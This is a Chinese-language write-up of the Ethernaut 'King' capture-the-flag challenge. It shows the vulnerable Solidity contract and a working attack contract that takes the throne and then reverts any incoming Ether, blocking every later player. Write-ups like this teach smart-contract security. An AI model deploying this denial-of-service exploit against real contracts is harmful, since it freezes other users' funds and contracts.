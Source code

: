 # King
## 題目
<img width="601" alt="截圖 2024-09-06 下午7 04 16" src="https://github.com/user-attachments/assets/73cb90d2-c8e9-4cd6-9c89-5cf0fb143c68">

### 目標
我們的目標是：
1. **成為 King**：透過向 King 合約發送比目前的 `prize` 更高的 Ether，成為 King。
2. **阻止其他人**：當其他玩家嘗試成為 King 時，利用合約中的漏洞，使他們的交易失敗，無法奪回 King 的位置。

## 合約
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

在這個合約中，成為 King 的條件是向合約發送比目前 `prize` 更高的 Ether。當新的玩家支付足夠的金額時，King 合約會更新 `king` 為新的玩家地址，並將 `msg.value` 轉移給前一位 King。然而，當前的 King 是一個可以拒絕接收 Ether 的合約，從而導致 King 合約無法順利執行轉帳，交易失敗，合約進入 revert 狀態。

## Hack

1. **部署一個攻擊合約**：這個合約將發送 Ether 成為新的 King。
2. **阻止轉帳**：當 King 合約嘗試將新的 `prize` 轉給我們的攻擊合約時，攻擊合約會拒絕接收 Ether，導致轉帳失敗，從而阻止其他玩家成為新的 King。

### code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IKing {
    function prize() external view returns (uint256);
    function _king() external view returns (address);
}

contract Hack {
    constructor(address payable _target) payable {
        uint256 prize = IKing(_target).prize();
        
        // 向 King 合約發送 Ether 並成為新的 King
        (bool ok,) = _target.call{value: prize}("");
        require(ok, "tx failed");
    }

    // receive 函數，當收到來自 King 合約的 Ether 時直接中止
    receive() external payable {
        revert("I will not accept any funds");
    }
}
```

1. **構造函數**：在 `constructor` 中，合約首先查詢 King 合約的 `prize`，並發送等量的 Ether 來成為 King。
2. **`receive()` 函數**：該函數會阻止 King 合約向我們轉帳 Ether，這是攻擊的關鍵。當 King 合約嘗試給我們發送 Ether 時，交易會失敗，從而阻止合約繼續執行。

### 攻擊步驟

1. **部署攻擊合約**：當攻擊合約 `Hack` 被部署時，會發送 Ether 給 King 合約，並成為新的 King。
2. **阻止其他玩家成為 King**：King 合約嘗試向我們的攻擊合約轉帳時，因為我們的 `receive()` 函數會拒絕交易，導致 King 合約的交易失敗，從而阻止其他玩家奪取 King 的位置。

